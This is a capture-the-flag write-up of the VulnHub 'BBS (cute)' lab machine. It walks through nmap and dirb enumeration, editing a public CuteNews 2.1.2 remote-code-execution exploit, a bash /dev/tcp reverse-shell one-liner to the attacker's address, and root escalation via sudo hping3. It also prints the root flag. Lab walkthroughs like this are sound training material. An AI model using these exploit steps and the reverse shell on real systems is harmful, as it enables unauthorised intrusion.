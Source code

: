 ```yaml
---
title: Vulnhub - BBS (cute)
description: My writeup on BBBS (cute) box.
categories:
 - vulnhub
tags: vulnhub hping3 python cutenews
---
```


![](https://infostory.files.wordpress.com/2016/10/bbs.jpg)

You can find the machine there > [BBS (cute)](https://www.vulnhub.com/entry/bbs-cute-101,567/){:target="_blank"}

## Summary

This box is a really easy but is really really good for beginners. Teach you the importance of exploit editing. We start by finding a vulnerable version of cutenews we edit the exploit and we gain command execution, privesc to root is simple we just exploit hping3. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.18
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:47 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00046s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s
MAC Address: 08:00:27:3E:4A:A5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
$ nmap -p 22,80,88,110,995 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:48 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00035s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) TOP UIDL PIPELINING STLS USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) LOGIN-DELAY(10) TOP UIDL UTF8(USER) PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

We start by enumerating the port 80, we can see the default apache page. Let's run a quick `dirb` scan.

```
$ dirb http://$ip/ -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 12:53:27 2020
URL_BASE: http://192.168.1.18/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.18/ ----
==> DIRECTORY: http://192.168.1.18/core/                                                  
==> DIRECTORY: http://192.168.1.18/docs/                                                  
+ http://192.168.1.18/favicon.ico (CODE:200|SIZE:1150)                                    
+ http://192.168.1.18/index.html (CODE:200|SIZE:10701)                                    
+ http://192.168.1.18/index.php (CODE:200|SIZE:6175)
```

If we visit `/index.php` we can see the CuteNews login page:

![](https://i.imgur.com/MZnn1kO.png)

In the end we can see the version:

![](https://i.imgur.com/g0WqCT7.png)

## Shell as www-data

Let's search for possible exploits.

```
$ searchsploit cutenews 2.1.2
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                      | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                          | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                              | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                            | php/webapps/48800.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Perfect! :fire: let's mirror the python one in our box.

```
$ searchsploit -m php/webapps/48800.py
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/Documents/vulnhub/bbs-cute/48800.py
```

If we try to run it we get an error:

```
$ python3 48800.py 

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
```

We have to edit the exploit. Simply we have to remove every `CuteNews` from the URL:

![](https://i.imgur.com/UvueVDU.png)

Do this and save it, now let's run it again and we can see we have command execution:

```
$ python3 48800.py                                                                                            

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: jiuVQZxLu2 and password: jiuVQZxLu2

=======================================================
Sending Payload
=======================================================
signature_key: 2f8c9b4da3b9fe958e83f6abe83e7edb-jiuVQZxLu2
signature_dsi: b0309d8b10b78e793dd52b31ec8bb678
logged in user: jiuVQZxLu2
============================
Dropping to a SHELL
============================

command > whoami
www-data
```

This shell isnt that good tho, let's spawn a normal reverse shell:

```
command > bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@cute:/var/www/html/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cute:/var/www/html/uploads$ 
```

## Shell as root

Now while doing the basic enumeration, `sudo -l` says we can run `hping3` as root:

```
www-data@cute:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3
```

We can join the interactive mode of hping3 just by running it with no options:

```
www-data@cute:/var/www/html/uploads$ sudo hping3
hping3> whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
hping3> bash -i
root@cute:/var/www/html/uploads# 
```

Let's read the flag:

```
root@cute:~# cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

I love such boxes! :D
